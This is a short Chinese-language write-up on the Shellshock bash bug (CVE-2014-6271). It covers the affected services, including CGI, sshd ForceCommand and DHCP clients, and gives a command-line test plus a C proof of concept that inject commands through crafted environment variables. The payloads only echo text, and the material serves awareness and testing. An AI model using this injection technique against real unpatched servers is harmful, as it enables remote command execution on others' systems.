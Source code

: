 # CVE-2014-6271资料汇总

author: shawn

0x00 什么是BASH
------------

* * *

Bourne Again Shell(简称BASH）是在GNU/Linux上最流行的SHELL实现，于1980年诞生，经过了几十年的进化从一个简单的终端命令行解释器演变成了和GNU系统深 度整合的多功能接口。

0x01 CVE-2014-6271
------------------

* * *

法国GNU/Linux爱好者Stéphane Chazelas于2014年9月中旬发现了著名的SHELL实)的一个漏洞，你可以通过构造环境变量的值来执行你想要执行的脚本代码，据报道称，这个漏洞能影响众多的运行在GNU/Linux上的会跟BASH交互的应用程序，包括:

> 在sshd配置中使用了ForceCommand用以限制远程用户执行命令，这个漏洞可以绕过限制去执行任何命令。一些Git和Subversion部署环境的限制Shell也会出现类似情况，OpenSSH通常用法没有问题。
> 
> Apache服务器使用mod_cgi或者mod_cgid，如果CGI脚本在BASH或者运行在子SHELL里都会受影响。子Shell中使用C的system/popen，Python中使用os.system/os.popen，PHP中使用system/exec(CGI模式)和Perl中使用open/system的情况都会受此漏洞影响。
> 
> PHP脚本执行在mod_php不会受影响。 DHCP客户端调用shell脚本接收远程恶意服务器的环境变量参数值的情况会被此漏洞利用。
> 
> 守护进程和SUID程序在环境变量设置的环境下执行SHELL脚本也可能受到影响。
> 
> 任何其他程序执行SHELL脚本时用BASH作为解释器都可能受影响。Shell脚本不导出的情况下不会受影响。

OpenSSH, Apache2, php, dhcp client甚至带SUID的程序。

### 1，本地SHELL环境中测试是否有漏洞：

```
$ env x='() { :;}; echo vulnerable' bash -c "echo this is a test"

```

如果存在漏洞会打印"vulnerable"。

### 2，C程序：

```
-----------------------------------------------------------------------------
/* CVE-2014-6271 + aliases with slashes PoC - je [at] clevcode [dot] org */
#include <unistd.h>
#include <stdio.h>

int main()
{
    char *envp[] = {
        "PATH=/bin:/usr/bin",
        "/usr/bin/id=() { "
        "echo pwn me twice, shame on me; }; "
        "echo pwn me once, shame on you",
        NULL
    };
    char *argv[] = { "/bin/bash", NULL };

    execve(argv[0], argv, envp);
    perror("execve");
    return 1;
}

```